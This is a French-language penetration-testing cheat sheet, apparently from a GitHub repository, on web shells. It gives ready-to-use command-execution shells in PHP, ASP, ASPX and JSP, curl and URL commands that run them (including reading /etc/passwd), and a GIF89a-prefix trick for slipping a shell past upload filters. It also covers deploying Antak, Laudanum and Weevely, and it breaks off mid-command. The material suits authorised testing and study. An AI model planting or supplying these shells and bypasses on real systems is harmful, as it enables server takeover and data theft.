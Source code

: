 # Web Shells

Les web shells permettent d'exécuter des commandes via une interface web, souvent après avoir exploité une vulnérabilité d'upload de fichier ou d'inclusion.

## Types de Web Shells

Les web shells sont disponibles pour différentes technologies web:

| Technologie | Extension | Environnement typique |
|-------------|-----------|------------------------|
| PHP | .php, .php5, .phtml | Apache, Nginx, IIS |
| ASP | .asp | IIS (anciennes versions) |
| ASPX | .aspx | IIS (.NET) |
| JSP | .jsp | Tomcat, JBoss, WebSphere |
| Perl | .pl, .cgi | Serveurs CGI |
| Python | .py | Serveurs WSGI, Django, Flask |

## PHP Web Shells

PHP est le langage de scripting serveur le plus répandu, ce qui en fait une cible privilégiée.

### Shells PHP Minimalistes

```php
// One-liner basique
<?php system($_GET['cmd']); ?>

// Alternative avec exec
<?php exec($_REQUEST['cmd']); ?>

// Shell plus complet avec formulaire
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    system($_REQUEST['cmd']);
    echo "</pre>";
}
?>
<form method="post">
Command: <input type="text" name="cmd" size="50">
<input type="submit" value="Execute">
</form>
```

### Utilisation des Web Shells PHP

```bash
# Exécution via URL
http://target.com/uploads/shell.php?cmd=id

# Via curl
curl -G http://target.com/uploads/shell.php --data-urlencode "cmd=cat /etc/passwd"
```
### Contournement des Restrictions d'Upload
```php
// Extension alternative: .phtml, .php5, .php.jpg
// Headers modifiés: image/gif, image/jpeg

// Préfixe GIF89a pour tromper la validation
GIF89a;
<?php system($_GET['cmd']); ?>
```
## ASP/ASPX Web Shells
Pour les serveurs Windows exécutant IIS.
### Shells ASP Basiques
```asp
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c " & Request.QueryString("cmd"))
o = cmd.StdOut.Readall()
Response.write("<pre>")
Response.write(o)
Response.write("</pre>")
%>
```
### Shells ASPX
```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
    protected void Page_Load(object sender, EventArgs e)
    {
        if (Request.QueryString["cmd"] != null)
        {
            Process p = new Process();
            p.StartInfo.FileName = "cmd.exe";
            p.StartInfo.Arguments = "/c " + Request.QueryString["cmd"];
            p.StartInfo.UseShellExecute = false;
            p.StartInfo.RedirectStandardOutput = true;
            p.Start();
            
            Response.Write("<pre>");
            Response.Write(p.StandardOutput.ReadToEnd());
            Response.Write("</pre>");
            p.Close();
        }
    }
</script>
<html>
<body>
    <form runat="server">
        <asp:TextBox ID="cmdTextBox" runat="server"></asp:TextBox>
        <asp:Button ID="cmdButton" runat="server" Text="Run" OnClick="Page_Load" />
    </form>
</body>
</html>
```
### Antak Webshell

[Antak](https://github.com/samratashok/nishang/tree/master/Antak-WebShell) est un web shell PowerShell avancé inclus dans Nishang.

```bash
# Copier le shell
cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/pentest/shell.aspx

# Modifier les identifiants (par défaut: username/password)
# Uploader sur la cible
```
## JSP Web Shells
Pour les serveurs d'applications Java comme Tomcat, JBoss ou WebSphere.

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
if (request.getParameter("cmd") != null) {
    out.println("<pre>");
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
    }
    out.println("</pre>");
}
%>
<form method="get">
Command: <input type="text" name="cmd" size="50">
<input type="submit" value="Execute">
</form>
```
## Frameworks de Web Shells Professionnels
### Laudanum
[Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum) est une collection de web shells pour différentes plateformes, préinstallé dans Kali Linux.

```bash
# Emplacement dans Kali
ls /usr/share/laudanum/

# Copier et personnaliser un shell PHP
cp /usr/share/laudanum/php/shell.php /home/pentest/customshell.php
# Modifier l'adresse IP autorisée dans le fichier
```
### Weevely
[Weevely](https://github.com/epinna/weevely3) est un shell PHP obfusqué avec canal crypté et nombreuses fonctionnalités.

```bash
# Génération d'un shell avec mot de passe
weevely generate password /home/pentest